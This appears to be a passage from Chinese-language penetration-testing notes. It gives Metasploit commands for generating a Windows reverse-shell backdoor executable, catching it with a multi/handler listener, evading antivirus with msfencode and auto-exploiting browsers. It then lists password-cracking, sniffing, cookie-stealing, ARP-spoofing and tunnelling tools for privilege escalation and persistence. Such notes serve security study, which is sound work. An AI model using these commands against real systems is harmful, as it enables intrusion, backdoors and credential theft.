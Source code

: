 			exploit

	场景4 根据Nmap扫描结果，自动检测漏洞，db_autopwn(需要手动安装)
		db_autopwn -p -t -e

	场景5
		生成二进制后门 msfpayload windows/shell_reverse_tcp lhost=1.1.110 rhost=1.1.1.1 X > a.exe
		本地接收反弹
			use exploit/multi/handler
			set payload windows/shell_reverse_tcp
			set lhost 1.1.1.10   set lport 1234
			exploit
		后门免杀 msfencode
		自动化浏览器漏洞利用 use auxiliary/server/browser_autopwn

# 7. 提权

## 7.1 攻击密码 （密码类型：基于秘密，基于持有，基于生理）

	* 离线攻击工具
		彩虹表破解 rtgen rtsort rcrack
		Samdump2 破解windows密码
		John
		ophcrack
		Crunch 创建字典
		Wyd从文件信息，构造字典
	* 在线攻击工具
		BruteSSH 破解SSH
		Hydra 多协议

## 7.2 网络嗅探

    Dsniff 多协议自动嗅探
    Hamster 作为代理，窃取Cookie
    Tcpdump
    Tcpick 文本嗅探，保存为文件
    Wireshark

## 7.3 网络欺骗工具
    Arpspoof
    Ettercap

# 8. 持续控制

## 8.1 协议隧道工具

    DNS2Tcp
    Ptunnel
    Stunnel4
